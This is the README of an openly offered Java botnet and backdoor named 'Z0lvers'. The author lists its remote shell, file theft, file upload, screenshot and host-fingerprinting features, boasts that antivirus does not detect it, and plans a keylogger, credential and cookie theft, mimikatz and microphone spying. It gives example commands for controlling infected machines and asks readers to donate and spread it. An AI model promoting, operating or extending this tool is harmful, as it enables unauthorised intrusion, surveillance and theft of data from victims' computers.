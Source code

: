 # Z0lvers
name created by Sh4dow Gh0st

It is offical the botnet is open source :D

here is a list of all the options:

it supports a 1000 users, shell acces to the infected computer, information giving about the infected computer like ( external ip, hostname, operating system and administrator or not when your on windows ), keepalive check, screenshot, downloaden and uploaden.

things that are partitional completed are: selfdestruct the virus.

the backdoor isn't seen by any viruscaner ( checked on date 11/3/2017 ).
the botnet is written in java with netbeans.

things that i didn't add are Ddos or randsomeware.

options that i am working on are: vnc, webcam snapshot, a keylogger, Persistence backdoor, network scan likely with nmap, passwords and cookie grap ( also skype ), video on full screen that cant be closed, mimikatz, Distributed hash cracking, microfone spying, popup for credentials, script mining.

this are the working options:
list info : that will give you a detailed list of all the computers in the botnet and thee hostname, external ip, operating system, adn if on windows if it had administrator rights.
msgbox : this will give a msgbox on the targets computer.
download : here can you download a file from the infected computer to the server ( full path is needed )
upload : send a file to the computers tmp using a url.
shell : here can you type cmd commands to the computer ( the shell closes automatic when the command is completed ).
screenshot : here can you make a screenshot of the defauld screen from the infecteed computer ( will be sended to the servers)
javaversion : request version of java from infected computer.
exit : closes connection.

by thee options msgbox, download, upload, shell, screenshot, javaversion and exit you have to give the hostname and external ip to send to someone here some examples you can find the hostname and external ip easy with list info : 
minepc@1.2.3.4 shell dir C:\
minepc@1.2.3.4 msgbox hello
minepc@1.2.3.4 download C:\Users\mh123hack\Downloads\botnet-herder.jpg
minepc@1.2.3.4 upload http://thestartupmag.com/wp-content/uploads/2016/10/hacked.png
minepc@1.2.3.4 screenshot
minepc@1.2.3.4 javaversion
minepc@1.2.3.4 exit
list info

open the client with netbeans!

the botnet is supported for windows, linux, and maby mac but i havend tested this.
the standard port for the precompiled server ( botnet-server.jar ) is 4600 but you can change this in the source code.

I want to thank ( O shit waddup ) from hackflag for making a video tutorial for the botnet.d
https://hackflag.org/forum/member.php?action=profile&uid=5209

if you want your hacker name here donate or make the botnet famous.
retweet: https://twitter.com/martinhermens1/status/839979932541415424
if you retweet this then your name will be placed down here.

we are over 100 downloads if this botnet becomes famous and get donations than i will make updates on request.

i hope you like my botnet :D

dear regards.
mh123hack

Do you want to donate send me a email and your name will be placed down here in big letters!
mh123hack@gmail.com


DONATORS:


SHARES:

TrollForums, 
Sh4dow gh0st,
Dancing Lama
